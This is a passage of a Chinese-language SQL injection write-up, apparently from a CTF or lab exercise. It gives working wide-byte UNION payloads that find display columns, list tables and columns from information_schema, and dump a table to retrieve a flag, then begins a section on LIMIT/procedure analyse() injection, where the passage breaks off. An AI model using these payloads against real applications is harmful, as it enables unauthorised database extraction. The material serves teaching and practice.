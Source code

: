### 得到显位数: 
`?id=2%bf' union select 1,2,3 %23`


> 显示位:
> [参考](https://blog.csdn.net/weixin_43379478/article/details/84943001)
> 比如我们通过ORDER BY命令知道了表的列数为11。然后再使用UNION SELECT 1,2,3…,11 from table，网页中显示了信息8，那么说明网页只能够显示第8列中信息，不能显示其他列的信息。也可以理解为网页只开放了8这个窗口，你想要查询数据库信息就必须要通过这个窗口。所以如果我们想要知道某个属性的值，比如admin,就要把admin属性放到8的位置上，这样就能通过第8列爆出admin的信息。

### 得到数据库信息
```php
?id=2%bf' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) %23
```

> mysql `group_concat` 函数能将相同的行组合起来, 方便查看


### 得到字段信息
```php
?id=2%bf' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7361655f757365725f73716c6934) %23
```

`0x736....`为表名的16进制表示.


## (3) 脱库
### 得到记录长度:
```php
?id=2%bf' union select 1,2,(select count(*) from sae_user_sqli4) %23
```
### 得到flag:
```php
?id=2%bf' union select 1,2,(select group_concat(title_1,content_1) from sae_user_sqli4) %23
```

<br />

# 四. limit注入
MySQL在MySQL5.x版本, limit配合 `procedure`函数和 `INTO`函数 进行注入. `INTO`除非有写入shell的权限，否则是无法利用的. 而MySQL默认只有`analyse()`与`procedure`搭配.


> `procedure analyse()`函数是MySQL内置的对MySQL字段值进行统计分析后给出建议的字段类型


修改`start`值, 页面内容也会随之变化, 而`num`则不会, 所以突破口可能是`start`参数.

## (1) 报错
尝试`?start=1 procedure analyse(1,1)%23&num=1`, 显示无法使用
